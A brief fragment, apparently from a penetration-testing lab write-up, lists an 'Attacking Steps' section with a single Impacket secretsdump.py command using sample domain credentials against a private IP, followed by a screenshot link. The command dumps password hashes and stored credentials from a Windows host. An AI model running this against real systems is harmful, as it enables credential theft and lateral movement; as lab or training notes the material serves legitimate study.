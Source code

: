 
- - -

## Attacking Steps :

```python
secretsdump.py marvel/Thor:Password1@10.10.10.10
```

![Imgur](https://i.imgur.com/mr4B57a.png)


